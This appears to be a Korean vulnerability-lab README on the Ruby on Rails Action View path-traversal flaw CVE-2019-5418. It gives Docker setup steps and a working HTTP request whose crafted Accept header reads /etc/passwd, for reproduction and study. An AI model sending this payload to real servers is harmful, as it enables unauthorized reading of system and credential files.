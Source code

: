 # Ruby on Rails 경로 순회 및 임의 파일 읽기 (CVE-2019-5418)

## 中文版(중국어 버전)

Ruby on Rails는 개발자가 웹 애플리케이션을 빠르고 쉽게 구축할 수 있는 웹 애플리케이션 프레임워크입니다.

Ruby on Rails의 Action View 버전 <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 및 v3에는 로컬 파일 포함(Local File Inclusion, LFI) 취약점이 존재합니다.

컨트롤러에서 `render file`을 사용하여 애플리케이션 외부의 뷰를 렌더링할 때, Rails는 사용자가 제공한 `Accept` 헤더를 기반으로 파일 위치를 결정합니다. 공격자는 `Accept` 헤더에 다음과 같은 값을 전달함으로써 경로 순회(Path Traversal) 취약점을 악용할 수 있습니다:

```
Accept: ../../../../../../../../etc/passwd{{
```

이를 통해 임의 파일을 읽을 수 있습니다.

## 참고 문헌

- [공식 보안 공지](https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q)
- [GitHub PoC 코드](https://github.com/mpgn/CVE-2019-5418)
- [Alibaba XZ 분석 글](https://xz.aliyun.com/t/4448)

## 환경 설정

다음 명령어를 실행하여 Ruby on Rails 5.2.2 환경을 Docker로 구성합니다:

```bash
docker compose build
docker compose up -d
```

서버가 시작된 후, 브라우저에서 `http://your-ip:3000`에 접속하여 Ruby on Rails 환영 페이지를 확인합니다.

## 취약성 재현

1. `http://your-ip:3000/robots`에 접속하여 정상적으로 `robots.txt` 파일을 읽을 수 있는지 확인합니다.
2. 취약점을 악용하여 `/etc/passwd` 파일을 읽으려면 다음과 같은 HTTP 요청을 보냅니다:

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

요청이 성공하면 `/etc/passwd` 파일의 내용을 읽을 수 있습니다.

